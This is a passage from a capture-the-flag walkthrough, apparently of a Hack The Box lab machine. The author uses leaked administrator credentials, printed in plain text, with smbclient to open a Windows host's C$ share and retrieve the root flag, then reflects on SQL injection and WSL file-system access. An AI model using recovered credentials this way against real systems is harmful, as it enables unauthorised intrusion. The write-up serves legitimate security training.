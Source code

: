 Boom! We have some administrator credentials! Looks like the `root.txt` must have been on the Windows box all along. It also comes almost ready to go with the syntax we want to use! Just update the IP address and we should be on the box as Administrator and can read the `root.txt` flag:
```
root@kali: smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
Try "help" to get a list of possible commands.
smb: \>cd \users\administrator\desktop\
smb: \users\administrator\desktop\> dir
  .                                  DR        0  Mon Aug 20 03:01:17 2018
  ..                                 DR        0  Mon Aug 20 03:01:17 2018
  desktop.ini                       AHS      282  Mon Aug 20 03:01:17 2018
  Microsoft Edge.lnk                  A     1417  Sat Jun 23 09:45:06 2018
  root.txt                            A       34  Mon Aug 20 03:03:54 2018

		12978687 blocks of size 4096. 8112274 blocks available
```

We can't print the contents of the `root.txt` through smb.. but we can copy the file to our local machine and read it from there:
```
smb: \users\administrator\desktop\> get root.txt
getting file \users\administrator\desktop\root.txt of size 34 as root.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)\
...
root@kali: cat root.txt
7250c[REDACTED]83d447b
```


This was a great box for learning some basic SQL Injection as well as how in the same way that using a Linux Live or dual booting can read a complete windows file system regardless of the Windows permissions, Windows 10's new Linux subsystem allows the Windows user full access to the Linux file system, regardless of the Linux permissions. (So long as you have the necessary Windows permissions to read the `%APPDATA%` directory.
